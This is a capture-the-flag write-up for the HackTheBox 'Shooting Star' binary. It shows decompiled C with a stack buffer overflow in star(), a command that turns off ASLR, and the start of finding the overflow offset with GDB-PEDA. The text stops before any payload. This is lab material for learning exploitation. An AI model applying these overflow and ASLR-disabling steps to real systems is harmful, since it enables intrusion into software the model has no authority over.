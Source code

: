 After take a look con ghidra code, we are interesting on buffer overflow from star function (option 1: Make a wish) and may use write from libc function:
```python
void star(void)

{
  char local_4a [2];
  undefined local_48 [64];
  
  read(0,local_4a,2);
  if (local_4a[0] == '1') {
    write(1,&DAT_00402008,3);
    read(0,local_48,0x200);
    write(1,"\nMay your wish come true!\n",0x1a);
  }
  else if (local_4a[0] == '2') {
    write(1,"Isn\'t the sky amazing?!\n",0x18);
  }
  else if (local_4a[0] == '3') {
    write(1,
          "A star is an astronomical object consisting of a luminous spheroid of plasma held togethe r by its own gravity. The nearest star to Earth is the Sun. Many other stars are visible t o the naked eye from Earth during the night, appearing as a multitude of fixed luminous po ints in the sky due to their immense distance from Earth. Historically, the most prominent  stars were grouped into constellations and asterisms, the brightest of which gained prope r names. Astronomers have assembled star catalogues that identify the known stars and prov ide standardized stellar designations.\n"
          ,0x242);
  }
  return;
}
```

We'll try to overflow undefined local_48 [64]; on read.

# Disabling ASLR
As before, we don't want the added complexity of Address Space Layout Randomization for this project, so we'll turn it off.
In a Terminal window, execute this command: 

```shell
echo 0 > /proc/sys/kernel/randomize_va_space 
```
# FINDING OFFSET

Now, let's search offset with GDB PEDA, execute shooting_star with gdb:

```shell
gdb ./shooting_star                                                                                                                                                   main 
gdb-peda$
```
Create patter with 85 chars, run program and pass this pattern to read on star function:
```shell
gdb-peda$ pattern create 85
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAf'
gdb-peda$ run
Starting program: /home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
🌠 A shooting star!!
1. Make a wish!
2. Stare at the stars.
3. Learn about the stars.
> 1
```
